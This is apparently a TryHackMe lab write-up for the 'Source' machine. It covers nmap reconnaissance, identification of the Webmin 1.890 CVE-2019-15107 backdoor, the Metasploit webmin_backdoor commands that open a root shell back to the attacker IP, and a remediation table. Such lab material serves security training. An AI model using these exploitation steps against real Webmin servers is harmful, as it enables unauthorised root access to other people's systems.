






# Source — TryHackMe Writeup
**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.66.133.27 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary
**Source** is a TryHackMe machine centered on a single unauthenticated remote code execution vulnerability. Webmin's management panel, exposed over HTTPS on port 10000, fingerprints as version 1.890 — within the version range affected by CVE-2019-15107, a supply-chain compromise planted in `password_change.cgi`. Exploiting it through Metasploit returns a shell as root directly, with no privilege escalation needed.

**Attack chain:** Webmin Version Fingerprinting → CVE-2019-15107 Identification → Metasploit webmin_backdoor Exploit → Root

## 1. Reconnaissance
A full TCP port scan found SSH and Webmin's management interface, with its version disclosed in the banner:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.66.133.27

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
10000/tcp open  http    syn-ack ttl 62 MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 582F934349BCA2AF2C9F1C2417A7D141
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Enumeration
A plain HTTP request to port 10000 confirmed the service only accepts HTTPS:



Over HTTPS, Webmin's login page loaded normally:



## 3. Exploitation — Webmin Backdoor (CVE-2019-15107)
`nmap` already fingerprinted the service as version 1.890, which sits inside the 1.882–1.921 range vulnerable to CVE-2019-15107 — an unauthenticated RCE backdoored into `password_change.cgi`. `searchsploit` listed several matching entries:

```
searchsploit webmin
Webmin 1.900 - Remote Command Execution (Metasploit)                                                                                                                                                      | cgi/remote/46201.rb
Webmin 1.920 - Remote Code Execution                                                                                                                                                                      | linux/webapps/47293.sh
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)                                                                                                                                         | linux/remote/47230.rb
```

The module was configured against the target. Since Webmin only answers over HTTPS, `SSL` had to be set to `true` (which also flipped `SRVSSL` to `true` automatically):

```
use exploit/linux/http/webmin_backdoor
set rhosts 10.66.133.27
set lhost 192.168.131.193
set SSL true
```

Running the exploit confirmed the target was vulnerable and returned a shell directly as root:

```
exploit
[+] The target is vulnerable. Exploitable: version 1.890 is vulnerable
[*] Command shell session 1 opened (192.168.131.193:4444 -> 10.66.133.27:38778) at 2026-11-02 00:53:18 -0500
```

`whoami` and `id` confirmed the session landed as root:



The TTY was then stabilized:

```
script /dev/null -c bash
```





## Root Cause & Remediation
| Issue | Fix |
|---|---|
| Webmin 1.890, affected by CVE-2019-15107, a supply-chain backdoor planted in `password_change.cgi` | Upgrade Webmin past 1.921; verify third-party software against known-good source checksums |
| Administrative panel (Webmin) reachable without additional network restriction | Firewall management interfaces like Webmin to trusted administrative networks only |
